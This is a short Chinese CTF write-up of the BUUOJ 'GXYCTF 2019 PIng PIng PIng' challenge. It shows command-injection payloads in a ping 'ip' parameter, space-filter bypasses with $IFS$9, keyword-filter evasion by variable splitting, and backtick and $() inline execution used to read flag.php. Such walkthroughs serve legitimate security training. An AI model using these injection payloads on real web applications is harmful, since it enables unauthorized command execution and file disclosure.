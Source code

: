 ### buuoj_GXYCTF 2019 PIng PIng PIng

这个看样子是要输一个IP地址，先试探一下

```
?ip=127.0.0.1
?ip=127.0.0.1|ls
```

![](https://pic.imgdb.cn/item/60facf095132923bf86c81b5.jpg)

找到flag文件了

试一下直接输出

```
?ip=127.0.0.1|cat flag.php
```

![](https://pic.imgdb.cn/item/60facf565132923bf86dea5f.jpg)

有被冒犯到，又试了几种绕过空格的方式都不行

看大佬的wp发现还有这种绕过

```
${IFS}
$IFS$9		#可行
```

![](https://pic.imgdb.cn/item/60fad0bb5132923bf87457c1.jpg)

结果发现flag被过滤了，那就看看另一个文件

![](https://pic.imgdb.cn/item/60fad0de5132923bf874fb4e.jpg)

可以看见特殊符号这些基本上都被过滤了

1）可以使用变量的方式来绕过，只要 f、l、a、g 四个字母不按照顺序即可，payload如下：

```   
?ip=;z=g;cat$IFS$9fla$z.php
```

（2）我们发现代码中没有过滤反引号，那么可以内联执行命令，即用反引号内执行的输出作为另一个命令的输入执行，payload如下：

```
?ip=;cat$IFS$9`ls`
```

### 内联执行执行

```
cat$IFS$9`ls`
cat$IFS$9$(ls)
这两个命令也意思就是执行当前目录下的所有文件
123
```

**(内联，就是将``或$()内命令的输出作为输入执行)**